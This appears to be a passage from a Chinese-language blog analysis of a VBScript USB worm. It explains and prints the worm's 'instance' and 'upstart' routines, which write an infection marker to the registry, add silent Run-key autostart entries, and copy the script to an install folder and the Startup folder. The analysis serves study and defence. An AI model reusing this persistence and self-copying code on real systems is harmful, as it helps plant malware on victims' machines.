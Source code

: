 尝试读取`HKEY_LOCAL_MACHINE\software`下是否存在以它的名字命名的项。  
如果无（说明当前主机没有被感染），则判断它自己是否处于某个盘的根目录下（应该是通过这个方式来判断自己是不是在U盘里），是的话则向注册表`HKEY_LOCAL_MACHINE\software`下写入一个以它的名字命名的项，值为`"true - "`加当前日期，不是的话则写入同样的项，值变为`"false - "`加当前日期。接着执行`upstart`。  
如果有（说明当前主机已被感染），直接执行后面的`upstart`。

`upstart`的功能是添加开机启动项：

在`HKEY_CURRENT_USER\software\microsoft\windows\currentversion\run`和`HKEY_LOCAL_MACHINE\software\microsoft\windows\currentversion\run`下分别添加一个以它名字命名的项，值相同，为`wscript.exe //B `加`installdir & installname`。`//B`告诉系统不要显示错误和提示信息（静默运行）。  
接着把它自己从当前位置复制到`installdir`和`startup`变量所指的路径。

接着继续在`instance`中执行。如果当前脚本的短路径和`installdir & installname`指向的短路径不同，则执行`installdir & installname`那个脚本，当前脚本退出。如果相同，说明它是从被感染主机上`installdir`启动的，接着调用`err.clear`显式清除错误记录。再尝试以追加方式打开`installdir & installname`（如果不存在则不创建文件），如果打开失败则退出脚本。至此`instance`函数结束。

{% highlight vb %}
function instance

on error resume next

usbspreading = shellobj.regread ("HKEY_LOCAL_MACHINE\software\" & split (installname,".")(0) & "\")
if usbspreading = "" then
   if lcase ( mid(wscript.scriptfullname,2)) = ":\" &  lcase(installname) then
      usbspreading = "true - " & date
      shellobj.regwrite "HKEY_LOCAL_MACHINE\software\" & split (installname,".")(0)  & "\", usbspreading, "REG_SZ"
   else
      usbspreading = "false - " & date
      shellobj.regwrite "HKEY_LOCAL_MACHINE\software\" & split (installname,".")(0)  & "\", usbspreading, "REG_SZ"
   end if
end If

upstart

set scriptfullnameshort =  filesystemobj.getfile (wscript.scriptfullname)
set installfullnameshort =  filesystemobj.getfile (installdir & installname)
if lcase (scriptfullnameshort.shortpath) <> lcase (installfullnameshort.shortpath) then
    shellobj.run "wscript.exe //B " & chr(34) & installdir & installname & Chr(34)
    wscript.quit
end If

err.clear
set oneonce = filesystemobj.opentextfile (installdir & installname ,8, false)
if  err.number > 0 then wscript.quit

end function
{% endhighlight %}

{% highlight vb %}
sub upstart ()

on error resume Next

shellobj.regwrite "HKEY_CURRENT_USER\software\microsoft\windows\currentversion\run\" & split (installname,".")(0),  "wscript.exe //B " & chrw(34) & installdir & installname & chrw(34) , "REG_SZ"
shellobj.regwrite "HKEY_LOCAL_MACHINE\software\microsoft\windows\currentversion\run\" & split (installname,".")(0),  "wscript.exe //B "  & chrw(34) & installdir & installname & chrw(34) , "REG_SZ"

filesystemobj.copyfile wscript.scriptfullname,installdir & installname,true
filesystemobj.copyfile wscript.scriptfullname,startup & installname ,true

end sub
{% endhighlight %}
